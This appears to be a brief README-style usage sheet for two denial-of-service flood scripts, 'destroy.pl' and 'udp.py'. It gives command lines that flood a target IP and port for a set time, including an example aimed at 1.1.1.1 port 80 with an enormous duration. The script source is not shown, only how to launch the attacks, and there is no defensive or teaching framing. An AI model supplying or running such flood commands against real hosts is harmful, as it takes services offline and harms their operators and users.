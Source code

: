 # Commands

$ Destroy 

perl destroy.pl 1.1.1.1 80 65500 50000000000

Usage: destroy {ip} {port} {time}

Example: destroy 1.1.1.1 80 60

$ UDP

python2 udp.py {ip} {port} 0 0

Usage: udp {ip} {port} 

Example: udp 1.1.1.1 80 

